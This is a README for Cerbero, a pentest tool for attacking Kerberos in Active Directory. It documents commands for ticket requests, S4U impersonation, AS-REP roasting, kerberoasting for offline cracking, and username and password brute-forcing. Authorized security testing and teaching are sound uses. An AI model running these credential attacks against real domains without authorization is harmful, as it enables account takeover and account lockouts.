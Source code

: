 <!-- cargo-sync-readme start -->

# Cerbero

Kerberos protocol attacker. Tool to perform several tasks
related with Kerberos protocol in an Active Directory pentest.

## Installation

From crates:
```sh
cargo install cerbero
```

From repo:
```sh
git clone https://gitlab.com/Zer1t0/cerbero.git
cd cerbero/
cargo build --release
```

## Commands
- [ask](#ask)
- [asreproast](#asreproast)
- [brute](#brute)
- [convert](#convert)
- [kerberoast](#kerberoast)
- [list](#list)

### Ask
The `ask` command allows to retrieve Kerberos tickets (TGT/TGS) from the KDC
(Domain Controller in Active Directory environment). Moreover also
perform requests to obtain tickets by using the S4U2Self and S4U2Proxy
Kerberos extensions.

Ask TGT:
```shell
cerbero ask -u Hades -d under.world -p IamtheKingofD34d!!
```

Ask TGS:
```shell
cerbero ask -u Hades -d under.world -p IamtheKingofD34d!! --spn ldap/under.world
```

Perform S4u2self:
```shell
cerbero ask -u Hades -d under.world -p IamtheKingofD34d!! --impersonate Zeus
```

Perform S4u2proxy:
```shell
cerbero ask -u Hades -d under.world -p IamtheKingofD34d!! --impersonate Zeus --spn ldap/under.world
```


### AsRepRoast
`asreproast` can be used to discover users that do not require
pre-authentication and retrieve a ticket to crack with hashcat or john.

Check many users:
```shell
cerbero asreproast under.world users.txt
```

Check many users with weak RC4 cipher (easier to crack):
```shell
cerbero asreproast under.world users.txt --cipher rc4
```

### Brute
`brute` performs TGTs requests in order to discover user credentials
based on the KDC response. This bruteforce technique allows you to
discover:
+ Valid username/password pairs
+ Valid usernames
+ Expired passwords
+ Blocked or disabled users

This attack should be performed carefully since can block user
accounts in case of perform many incorrect authentication attemps
for the same user.

Test many users and passwords:
```shell
cerbero brute under.world users.txt passwords.txt
```

Test one user and many passwords:
```shell
cerbero brute under.world Zeus passwords.txt
```

Test many users and one password:
```shell
cerbero brute under.world users.txt Olympus1234
```

Test one user and one password:
```shell
cerbero brute under.world Zeus Olympus1234
```

### Convert
Allows to `convert` ticket files between krb (Windows) and
ccache (Linux) formats.

Convert ccache to krb:
```shell
cerbero convert hades.ccache hades.krb
```

Convert krb to ccache:
```shell
cerbero convert hades.krb hades.ccache
```

### Kerberoast
To format encrypted part of tickets in order to be cracked by hashcat or john.

```shell
cerbero kerberoast -s services.txt --realm under.world --user Hades -p IamtheKingofD34d!!
```

### List
`list` shows the tickets information of a credentials file. Similar
to `klist` command

```shell
cerbero list hades.ccache
```

## Credits
This work is based on great work of other people:
- [Impacket](https://github.com/SecureAuthCorp/impacket) of Alberto Solino [@agsolino](https://github.com/agsolino)
- [Rubeus](https://github.com/GhostPack/Rubeus) of Will [@harmj0y](https://twitter.com/harmj0y) and Elad Shamir [@elad_shamir](https://twitter.com/elad_shamir)
- [Mimikatz](https://github.com/gentilkiwi/mimikatz) of [@gentilkiwi](https://twitter.com/gentilkiwi) 

<!-- cargo-sync-readme end -->
